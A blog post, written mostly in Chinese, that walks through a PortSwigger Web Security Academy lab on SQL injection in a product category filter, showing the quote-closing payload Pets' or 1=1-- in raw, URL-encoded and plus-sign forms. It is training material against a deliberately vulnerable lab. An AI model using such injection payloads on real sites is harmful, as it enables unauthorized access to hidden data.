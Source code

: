 ```yaml
---
layout: post
title: "SQL injection vulnerability in WHERE clause allowing retrieval of hidden data"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_SQL_Injection
author: ""
tags: ['PortSwigger_Lab', 'SQL_Injection']
---
```






# SQL injection vulnerability in WHERE clause allowing retrieval of hidden data



```
 This lab contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out an SQL query like the following:
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

To solve the lab, perform an SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 


本實驗室在產品類別過濾器中包含一個 SQL 注入漏洞。 當用戶選擇一個類別時，應用程序執行如下 SQL 查詢：
SELECT * FROM products WHERE category = 'Gifts' AND 已發布 = 1

要解決實驗室問題，請執行 SQL 注入攻擊，導致應用程序顯示任何類別的所有產品的詳細信息，包括已發布和未發布的產品。




```



這題要你選擇一個產品類型，並且利用注入，讓他顯示不該顯示的物品。

例如我選擇 Pets
```
https://0a5400ea03f5e871c0241bed00340011.web-security-academy.net/filter?category=Pets
```

目前畫面只有三個物品是屬於pets。


我們假設他後台使用sql 語句為: 
(其實官方有給)
```
SELECT * FROM products WHERE category = 'Pets' AND released = 1
```


1.先閉合符號 ( ' ) 
2.然後 or 1=1   結果為 true 所以可以看到全部內容
3.(--) 註釋後面語句。


也就是完整語句為:
```
SELECT * FROM products WHERE category = 'Pets' or 1=1--' AND released = 1
```

```
//空白要確保 會被browser 預設轉為%20
category=Pets' or 1=1--



//url encode 
category=Pets%27%20or%201=1--



// +號 代替空格 主要是不要有空格出現
category=Pets'+or+1=1--

```



